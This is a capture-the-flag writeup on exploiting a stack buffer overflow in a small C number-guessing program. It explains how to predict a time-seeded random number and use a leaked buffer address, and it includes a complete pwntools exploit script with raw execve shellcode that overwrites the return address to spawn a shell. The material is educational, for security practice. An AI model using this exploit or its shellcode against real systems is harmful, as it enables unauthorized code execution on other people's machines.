



### Writeup for the Challenge

#### Overview

This challenge involves exploiting a buffer overflow vulnerability in a simple C program. The program asks the user to guess a random number. If the guess is correct, it calls a vulnerable function (`vuln`) that has a buffer overflow vulnerability. The objective is to guess the random number, trigger the buffer overflow, and inject shellcode to get a shell.

#### Steps to Exploit

0. **Checksec**:
    
    - Since the stack is executable, we can inject shellcode and return to it to execute it.
    - Since there is no canary, we don't need to leak it.
    
1. **Decompiler View (Ghidra)**:


    


    

    - The program has two functions: `main()` and `vuln()`.
    - `main()` generates a random number and asks the user to guess it. If the guess is correct, it calls `vuln()`.
    - `vuln()` has a buffer overflow vulnerability due to the `read(0, buffer, 133);` call. The buffer is only 64 bytes, but `read` can read up to 133 bytes, leading to a buffer overflow.


2. **Random Number Guessing**:
    - The program generates a random number using `srand(time(NULL))` and `rand()`.
    - The user must guess this random number to proceed to the vulnerable function `vuln()`.
    - The seed for `rand()` is set using `time(NULL)`, which means if the connections are established in the same second, the same random number will be generated. This allows us to reconnect using the same guessed number.

3. **Getting the Buffer Address**:
    - The program prints the address of the buffer before asking for input, which we can use to overwrite the return address.

4. **Injecting Shellcode**:
    - Inject shellcode into the buffer and overwrite the return address to point to the buffer.

#### Exploitation Script

```python
from pwn import *

# specify the target binary
binary = './dbm'
# specify the target architecture
context.binary = binary
context.arch = 'amd64'

# Connect to the target
p = remote('localhost', 2002)

# Step 1: Guess the random number
p.recvuntil(': ')
p.sendline('1')  # Send an initial guess to get the secret number
receivedBytes = p.recvall().decode('utf-8')
p.close()

# Extract the random number
randomNumber = receivedBytes.split('\n')[0].split(' ')[-1]

# Reconnect to the target
p = remote('localhost', 2002)
p.recvuntil(': ')
p.sendline(randomNumber)  # Send the correct guess

# Step 2: Get the buffer address
address = p.recvline().decode('utf-8').strip()
p.recvuntil(': ')

# Step 3: Prepare the shellcode
shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

# Step 4: Create the payload
offset = 64 + 8  # 64 bytes for the buffer + 8 bytes for the saved RBP
payload = shellcode + b'A' * (offset - len(shellcode)) + p64(int(address, 16))

# Send the payload
p.sendline(payload)
p.interactive()
```

#### Explanation of the Exploitation Script

1. **Connecting to the Target**:
    - We connect to the target using `p = remote('localhost', 2002)`.

2. **Guessing the Random Number**:
    - We send an initial guess (`'1'`) to get the random number from the output.
    - Extract the random number from the received bytes.

3. **Reconnecting and Sending the Correct Guess**:
    - Reconnect to the target and send the correct random number. Because the seed for `rand()` is set using `time(NULL)`, if the connections are established in the same second, the same random number will be generated.

4. **Getting the Buffer Address**:
    - Read the buffer address printed by the program.

5. **Preparing the Shellcode**:
    - Prepare the shellcode to be injected.

6. **Creating and Sending the Payload**:
    - Create the payload by placing the shellcode in the buffer and overwriting the return address with the buffer's address.
    - Send the payload and interact with the shell obtained.

This script automates the process of guessing the random number, exploiting the buffer overflow vulnerability, and injecting shellcode to get a shell.